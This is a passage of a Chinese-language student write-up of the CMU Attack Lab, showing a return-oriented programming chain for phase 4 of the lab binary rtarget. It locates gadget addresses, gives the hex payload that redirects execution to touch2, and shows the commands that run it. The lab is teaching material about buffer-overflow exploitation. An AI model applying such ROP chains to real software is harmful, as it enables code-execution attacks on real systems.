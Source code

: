 其中`48 89 c7 c3`通过查表3A可知，就是`movq %rax, %rdi / ret`的意思，地址是`0x4019a0 + 0x2 = 0x4019a2`。因此我们可以找找`popq %rax / ret`对应的字节级表示。发现：

```asm
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret    
```

这里的`90`是`no op`的意思，所以也可以构成我们需要的指令，地址为`0x4019ca + 0x2 = 0x4019cc`。

找到`touch2()`的地址为`0x4017ec`，因此我们转换为字节级表示写入`p4.txt`：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

然后运行：

```bash
./hex2raw < p4.txt > p4
./rtarget -qi p4
```

运行成功了！

![2_level_2.png](https://s2.loli.net/2025/05/31/wpQiMTSdW4C9grB.png)

---

### Level 3

考虑到`Writeup.pdf`中的：

> You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations, consider stopping right now.

在之后再对这一关深入研究。

---